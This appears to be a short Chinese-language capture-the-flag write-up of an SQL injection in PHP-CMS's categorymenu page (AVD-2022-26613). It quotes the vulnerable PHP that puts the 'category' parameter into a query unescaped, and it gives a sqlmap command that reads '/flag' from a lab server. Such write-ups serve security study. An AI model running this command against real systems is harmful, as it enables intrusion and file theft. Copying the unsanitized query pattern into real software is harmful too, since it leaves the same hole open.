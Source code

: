 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-26613)
## 2. 漏洞分析
详情参见：[SQL injection in categorymenu page · Issue #14 · harshitbansal373/PHP-CMS · GitHub](https://github.com/harshitbansal373/PHP-CMS/issues/14)
说白了就是未对 `$_GET['category']` 提交的参数值未作任何过滤或转义
The problem code is here.
```php
 <?php
if(isset($_GET['category'])){
    $post_category_id = $_GET['category'];
}
$query = "SELECT * FROM posts WHERE post_category_id = {$post_category_id} ";
$select_all_posts_count_query = mysqli_query($connection,$query);
$count = mysqli_num_rows($select_all_posts_count_query);
confirm_query($select_all_posts_count_query);
……
while($row = mysqli_fetch_assoc($select_all_posts_count_query)){
    $post_id = $row['post_id'];
    $post_title = $row['post_title'];
    $post_user = $row['post_user'];
    $post_date = $row['post_date'];
    $post_image = $row['post_image'];
    $post_content = $row['post_content'];
?>
```
## 3. 漏洞复现
根据漏洞分析直接对 `category` 参数进行 `union` 注入，查数据库—查数据表—查字段……未找到 flag，尝试用sqlmap 直接从根目录读取 flag。

```bash
python sqlmap.py -u "http://eci-2ze2hbrirax6c67zx8h7.cloudeci1.ichunqiu.com/categorymenu.php?category=" --file-read "/flag" --dbms mysql --batch
```

![效果](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309081944506.jpg)
